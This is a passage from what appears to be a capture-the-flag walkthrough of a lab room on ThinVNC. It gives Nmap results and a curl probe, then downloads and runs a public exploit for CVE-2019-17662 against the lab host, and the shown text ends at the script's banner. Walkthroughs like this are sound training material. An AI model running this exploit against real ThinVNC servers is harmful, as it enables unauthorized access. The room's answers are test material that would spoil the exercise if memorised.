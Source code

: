 ### Answer: **3389,8080**

- What service does Nmap think is running on the higher of the two ports?

### Answer: **http-proxy**

- We would usually go on to do a lot more in-depth scanning, but we will leave it at that for this introductory room. We have what we need for the time being.

Nothing to do

# Task 3: Enumeration - Service Enumeration

- Use searchsploit to find the vulnerability in ThinVNC

As indicated in this task, I launched **curl**

```
curl 10.10.134.226:8080 -v
*   Trying 10.10.134.226:8080...
* Connected to 10.10.134.226 (10.10.134.226) port 8080 (#0)
> GET / HTTP/1.1
> Host: 10.10.134.226:8080
> User-Agent: curl/7.84.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 401 Access Denied
< Content-Type: text/html
< Content-Length: 144
< Connection: Keep-Alive
< WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="887Jusfq5UDI16kAx+rlQA==", opaque="ZMYwZNxD6jZO0vZUPYWx0b8sHmnUZops5M"
<
<HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL  requires authorization.<P></BODY></HTML>
* Connection #0 to host 10.10.134.226 left intact
```

The suggesiton for this task is to use **searchsploit** but I really prefer to directly check [exploitdb](https://www.exploit-db.com/)

We hae an exploit here [Link](https://www.exploit-db.com/exploits/47519)

# Task 4: Attack - Foothold

- Download the python file from the link provided in the task [CVE-2019-17662](https://github.com/MuirlandOracle/CVE-2019-17662)
- Set the file executable 
```
chmod +x CVE-2019-17662.py
```
- This script requires 2 arguments : Host and Port. Let's try it withi these 2 arguments
```
┌──(kali㉿kali)-[/media/sf_LOLO_Share]
└─$ ./CVE-2019-17662.py 10.10.134.226 8080

     _____ _     _    __     ___   _  ____                                   
    |_   _| |__ (_)_ _\ \   / / \ | |/ ___|                                  
      | | | '_ \| | '_ \ \ / /|  \| | |                                      
      | | | | | | | | | \ V / | |\  | |___                                   
      |_| |_| |_|_|_| |_|\_/  |_| \_|\____|                                  
                                                                             
                            @MuirlandOracle                                  

```